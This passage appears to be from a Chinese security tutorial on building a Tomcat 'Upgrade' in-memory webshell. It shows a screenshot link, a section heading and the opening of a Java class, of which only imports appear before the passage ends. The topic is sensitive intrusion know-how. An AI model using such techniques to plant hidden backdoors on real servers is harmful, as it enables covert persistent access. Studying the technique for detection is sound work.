 
[![](assets/1708482732-b320d621dcd1349afc73f6f220ebb6f8.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003504-57bcbd52-c832-1.jpeg)

## 5.2 Tomcat Upgrade 内存马

由`2.14.2`节中的分析，我们可以写出如下`java`代码：

```bash
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.catalina.connector.Connector;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
import org.apache.coyote.Response;
import org.apache.coyote.http11.AbstractHttp11Protocol;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.util.HashMap;

```